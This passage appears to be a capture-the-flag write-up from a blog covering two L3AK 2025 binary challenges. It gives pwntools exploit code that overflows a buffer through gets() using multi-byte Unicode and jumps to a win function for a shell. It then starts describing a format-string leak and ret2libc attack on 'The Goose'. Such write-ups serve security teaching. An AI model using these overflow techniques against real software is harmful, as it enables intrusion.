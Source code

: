 But Python can accept Unicode characters as input, and they can contain multiple bytes.
Sending them to `gets()` will result in an overflow if we send enough.


```py
BINARY = "./chall"
MAX_LEN = 0xff

# Get input from user
payload = input(f"Enter your input (max {MAX_LEN} bytes): ")
if len(payload) > MAX_LEN:
    print("[-] Input too long!")
    sys.exit(1)
```
Payload just fills the buffer until the return address,
then sends a `ret` to align the stack,
and after that, `win` to get a shell.
```py
ret = 0x40101a

payload = flat(
    b"\x00",
    "ч".encode() * (0x116 // 2),
    b"\x00",
    ret,
    exe.sym.win
)

sl(payload)
ia()
```
Full exploit can be found here: [exploit.py](/blog/scripts/l3ak25/safe_gets.py)

### The Goose

This is also an easy challenge, but a little bit harder than the previous one,
because it doesn't have a `win` function, so **ret2libc** is needed.

The binary is pretty simple. We enter a username, and after that, we guess a number.
If we guess the number correctly, we enter a function with a format string vulnerability (for leaking)
and a buffer overflow (for **ret2libc**).

We can fill up the username with 64 characters, and when it’s printed in `guess()`,
the secret number will be leaked.
```c
char username[64];
int nhonks;

int __fastcall main(int argc, const char **argv, const char **envp)
{
  unsigned int timenow; // eax

  setvbuf(_bss_start, 0LL, 2, 0LL);
  timenow = time(0LL);
  srand(timenow);
  setuser(); // __isoc99_scanf("%64s", username);
  nhonks = rand() % 91 + 10;
  if ( guess() ) // __isoc99_scanf("%d", &guess_); ... return guess_ == nhonks;
    highscore();
  else
    puts("tough luck. THE GOOSE WINS! GET THE HONK OUT!");
  return 0;
}

void highscore()
{
```